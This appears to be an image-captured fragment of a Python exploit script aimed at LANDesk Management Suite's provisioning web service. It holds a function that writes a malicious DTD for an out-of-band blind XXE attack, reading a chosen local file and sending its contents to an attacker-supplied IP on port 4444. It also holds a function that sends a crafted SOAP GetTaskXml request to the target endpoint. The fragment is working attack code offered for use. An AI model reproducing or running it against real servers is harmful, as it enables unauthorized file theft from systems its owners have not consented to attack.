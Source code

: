 ```python

# Call the function to display the banner



def log(message, status="info"):
    if status == "success":
        print(f"[+] {message}")
    elif status == "log":
        print(f"[*] {message}")
    else:
        print(f"[-] {message}")

# Function to create the malicious DTD file since this is a blind XXE so we are performing an
# OOB XXE attack and exfiltrate data

def create_malicious_dtd(file_path, local_ip):
    dtd_content = f'''<!ENTITY % file SYSTEM "file:///{file_path}">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://{local_ip}:4444/?content=%file;'>">
%eval;
%exfiltrate;
'''
    with open('malicious.dtd', 'w') as dtd_file:
        dtd_file.write(dtd_content)
    log(f"Malicious DTD created at malicious.dtd", "success")


def getTasksXml(target_url):
  log("Attempting to retrieve historyEntryIDN via getTasksXml", "log")
  headers = {
      "Content-Type": "text/xml; charset=utf-8",
      "Soapaction": '"http://tempuri.org/GetTaskXml"'
  }
  soap_request = '''<?xml version="1.0" encoding="utf-8"?>
    <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
      <soap:Body>
        <GetTaskXml xmlns="http://tempuri.org/">
          <sids>
            <ServerIdentifier>
              <sit>Test</sit>
              <sIdentifier>string</sIdentifier>
            </ServerIdentifier>
            <ServerIdentifier>
              <sit>Test</sit>
              <sIdentifier>string</sIdentifier>
            </ServerIdentifier>
          </sids>
        </GetTaskXml>
      </soap:Body>
    </soap:Envelope>'''

  response = requests.post("{}/LANDesk/ManagementSuite/Core/ProvisioningWebService/WebService.asmx".format(target_url), data=soap_request, headers=headers, verify=False)
  root = ET.fromstring(response.text)
  namespace = {'ns': 'http://tempuri.org/'}
  result = root.find('.//ns:GetTaskXmlResult', namespace)
  if result is not None:
    return result.text
  else:
      log("GetTaskXmlResult not found", "error")
      exit(1)

```